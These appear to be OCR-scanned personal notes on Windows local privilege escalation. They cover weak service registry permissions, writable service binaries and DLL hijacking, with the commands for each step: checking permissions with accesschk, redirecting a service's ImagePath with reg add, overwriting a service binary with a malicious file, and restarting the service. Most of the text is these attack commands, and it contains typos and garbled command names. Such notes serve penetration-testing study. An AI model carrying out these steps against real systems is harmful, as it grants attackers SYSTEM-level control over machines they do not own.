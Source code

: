 - First identify the path which is vulnerbale to this attack

-then query it to see its inf0

> sc qc regsvc

SERVICE_START_NAME must be set to system so we know that root is runng the service

- Now we use accesschk to see which permissions we have

> .\accesschk /accepteula -uvwqk registrypath or regisrtry (conditianal)


now we point our executable to the registry config so it gets executed

> reg add weakregistrypath /v ImagePath /t REG_EXPAND_SZ /d pathtoourfile /f



### Writable insecure services

In this we usually exploit if any service being ran by system is writable by us 

We will simply overwrite the service with our code and then simpply restart it


First we check if we Authority permission on the service

> sc qz filepermsvc

Now we use accesschk to see if we have writa permission to service binary

> .\accesschk.exe /accepteula -quvw "Path to service"


If its writable then we overwrite it woth our malicius file

> copy maliciousfilepath  "service path" /Y


Now we restart the service

> net start filepermsvc

### DLL hijacking

This attack works when the dll service look for a dll file  in different paths in windows and if any path is writable by us
then we can simply create dll msfvenom payload and write to that path and when we start the dllservice that malicius
payload is loaded and run
to find the dll filename we have to need access to rfd and use process monitor

In winpeas output see if any dll path is writable

then query the dllservice to see if that is being run by System

> sc qc dllsvc

Now check our permission using accesschk

> .\accesschk /accepteula -uvqc username dllservicenmae

Now if we can start or stop the service then we will proceed
